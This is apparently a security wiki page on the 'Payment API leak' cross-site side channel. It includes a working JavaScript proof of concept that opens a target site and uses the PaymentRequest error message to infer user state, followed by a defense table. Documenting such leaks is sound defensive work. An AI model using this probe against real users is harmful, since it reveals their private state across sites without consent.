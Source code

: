 +++
title = "Payment API leaks"
description = ""
category = "Attack"
abuse = []
defenses = []
menu = "main"
weight = 2
+++

## Detecting usage of Payment API
Because only one PaymentRequest UI is allowed to be visible the blocking can be detected. [^demo]
This could be abused if the target displays the PaymentRequest UI conditionally on user state.
```javascript
const applePayMethod = {
    supportedMethods: "https://apple.com/apple-pay",
    data: {
        version: 3,
        merchantIdentifier: "merchant.com.example",
        countryCode: "US",
        merchantCapabilities: ["supports3DS"],
        supportedNetworks: ["visa"],
    },
}

const methods = [{supportedMethods: "basic-card"}, applePayMethod];
const details = {
    total: {
        label: "Total",
        amount: {
            currency: "USD",
            value: "1.00",
        },
    },
}

const sleep = (ms) => {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function paymentsUsage(URL) {
    return new Promise(async (r) =>  {
        if (!window.PaymentRequest){
            return r('PaymentRequest not supported.');
        }
        let w = open(URL);
        await sleep(2000);
        let request = new PaymentRequest(methods, details);
        request.show().catch((err) => {
                if(err.message == "Another PaymentRequest UI is already showing in a different tab or window.")
                    return r(1);
                else{
                    return r(0);
                }
            }
        )
        request.abort();
    });
    
}
```
{{< hint info >}}
Firefox doesn't currently support PaymentRequest.
{{< /hint >}}


## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ❌                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
## References

[^demo]: Detect if another tab is using the Payment API, [link](https://xsinator.com/testing.html#Payment%20API%20Leak)
